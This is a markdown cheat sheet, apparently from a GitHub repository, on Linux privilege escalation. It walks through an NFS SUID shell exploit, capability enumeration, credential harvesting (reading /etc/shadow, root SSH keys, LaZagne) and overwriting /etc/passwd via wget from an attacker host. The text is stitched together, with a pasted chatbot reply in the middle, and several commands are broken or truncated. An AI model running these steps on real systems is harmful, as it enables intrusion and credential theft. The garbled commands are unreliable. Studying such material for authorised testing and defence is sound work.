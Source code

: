 
Follow: https://blog.bdhungana.com.np/linux-privilege-escalation
---

# Linux Privilege Escalation

## NFS Exploit

To check if the attacker machine mount is possible:
```sh
cat /etc/exports
```

Use Nmap to check the NFS mount:
```sh
nmap --script=nfs-showmount 10.10.x.x
```
*(Note: (sync) means write)*

### To set up the mount point on a local machine and create a temporary directory:

1. On the local machine, create a temporary directory:
    ```sh
    mkdir /tmp/nfs
    ```

2. Mount the NFS share:
    ```sh
    sudo mount -o rw,vers=3 -t nfs 10.10.x.x:/tmp /tmp/nfs
    ```

3. Navigate to the `/tmp` directory.

### Create a Metasploit Linux exploit with SUID bit set:

1. On the local machine with root privileges, generate the exploit:
    ```sh
    msfconsole -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```

2. Give the SUID bit permission to the `shell.elf` file:
    ```sh
    chmod +s /tmp/nfs/shell.elf
    ```

### Execute the `shell.elf` file on the compromised machine:

1. Navigate to the compromised machine and execute the file:
    ```sh
    ./shell.elf
    ```

---

# Exploit Capabilities

## After logging into the compromised machine, check if the capabilities exist:

### Using LinePeas:

To check capabilities:
```sh
./linepeas
```

### Manual Approach:

1. To check the capabilities for SUID bit:
    ```sh
    getcap -r / 2>/dev/null
    ```

2. To find files with SUID bit:
    ```sh
    find / -perm /4000 2>/dev/null
    ```

3. To check the process capabilities:
    ```sh
    ps -aux | grep root
    ```

4. Check any process ID which is running as root:
    ```sh
    cat /proc/477/status | grep -i cap
    ```

5. Convert the hex value to ASCII value:
    ```sh
    capsh --decode=000003ffffffff
    ```

### Use GTFOBins to Exploit:

---

It looks like you're compiling a list of commands and steps for a penetration testing task, focusing on finding and exploiting sensitive credentials. Let's break down the steps and ensure they are clear and actionable.

## Sensitive Credentials

1. **Read Bash History:**
   ```bash
   cat ~/.*history | less
   ```

2. **Configuration Files:**
   ```bash
   find / -type f -exec grep -i -l "PASSWORD\|PASSWD" {} 2>/dev/null
   locate config.php
   locate password
   locate passwd
   cat /var/mail/*
   cat /var/spool/mail/*
   ```

3. **Search for Passwords:**
   ```bash
   grep -color=auto -rnw '/' -ie "PASSWORD\|PASSWD" -color=always 2>/dev/null
   ```

4. **Hashes in Password/Shadow:**
   ```bash
   cat /etc/passwd
   cat /etc/shadow
   ```

5. **Credentials in Memory:**
   ```bash
   # This step typically involves using tools like `strings` or `grep` on memory dumps.
   ```

6. **Browser Credentials:**
   ```bash
   # This step typically involves using tools like `LaZagne` or `Firefox Decrypt`.
   ```

7. **SSH Key-Based Authentication Check:**
   ```bash
   cat /root/.ssh/id_rsa
   cd /root
   cd .ssh
   ls -al
   cat root_key
   ```

8. **Copy and Save SSH Key:**
   ```bash
   # On your local machine:
   chmod 600 id_rsa
   ```

9. **Connect Using SSH Key:**
   ```bash
   ssh -i id_rsa root@10.10.X.X -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa
   ```

10. **Using LaZagne:**
    ```bash
    # Download LaZagne from GitHub
    git clone https://github.com/AlessandroZ/LaZagne.git
    cd LaZagne
    python laZagne.py all
    ```



- Browsers (Chrome, Firefox, etc.)
- Email clients (Outlook, Thunderbird, etc.)
- System credentials (Windows, Linux, etc.)

## Example Commands

- **Retrieve all passwords:**
  ```bash
  python laZagne.py all
  ```

- **Retrieve passwords from a specific browser:**
  ```bash
  python laZagne.py browsers
  ```

- **Retrieve passwords from a specific email client:**
  ```bash
  python laZagne.py email

 

## Weak File Permissions

1. **Check `/etc/passwd` Permissions:**
   ```bash
   ls -l /etc/passwd
   ```

2. **Backup `/etc/passwd`:**
   ```bash
   cp /etc/passwd /tmp/passwd.bak
   ```

3. **Copy `/etc/passwd` to Local Machine:**
   ```bash
   scp user@compromised_machine:/etc/passwd /local/path/passwd
   ```

4. **Generate Password Hash:**
   ```bash
   openssl passwd -6 password123
   ```

5. **Edit `/etc/passwd` on Local Machine:**
   ```bash
   # Open the passwd file in a text editor
   nano /local/path/passwd

   # Replace the root entry with the new hash
   root:ssssssssssssss:0:0:root:/root:/bin/bash
   ```

6. **Upload Modified `/etc/passwd` to Compromised Machine:**
   ```bash
   scp /local/path/passwd user@compromised_machine:/tmp/passwd
   ```

7. **Replace `/etc/passwd` on Compromised Machine:**
   ```bash
   wget http://10.10.x.x/passw -O /etc/passwd
   ```

8. **Switch to Root User:**
   ```bash
   su root
   ```

9. **Enter the Password:**
   ```bash
   # Enter the password you used to generate the hash
   ```



